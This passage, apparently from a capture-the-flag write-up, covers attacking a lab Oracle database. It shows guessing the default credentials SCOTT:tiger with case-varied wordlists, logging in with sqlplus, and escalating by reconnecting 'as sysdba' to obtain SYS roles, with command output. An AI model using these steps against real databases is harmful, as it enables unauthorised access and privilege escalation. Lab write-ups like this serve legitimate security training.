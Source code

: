 Eventually, I decided to try different cases, so I wrote a couple scripts to modify existing lists to include upper, lower, and capitalized.

When fed that list, the scanner gives a good username / password: `SCOTT`:`tiger`.

#### 4 - Check out the database

At this point, we can connect using sqlplus:

```

root@kali# sqlplus SCOTT/tiger@10.10.10.82:1521/XE

SQL*Plus: Release 12.2.0.1.0 Production on Thu Apr 26 08:54:27 2018

Copyright (c) 1982, 2016, Oracle.  All rights reserved.

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL>

```

Obviously the first thing we’ll do it check out the database. There isn’t any data of interest.

#### 5 - db PrivEsc

Looking at the current access, SCOTT doesn’t have privilege:

```

SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO

```

However, if we reconned with the `as sysdba` option (think sudo for Oracle), then we have a ton more:

```

root@kali# sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba
...snip...
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
```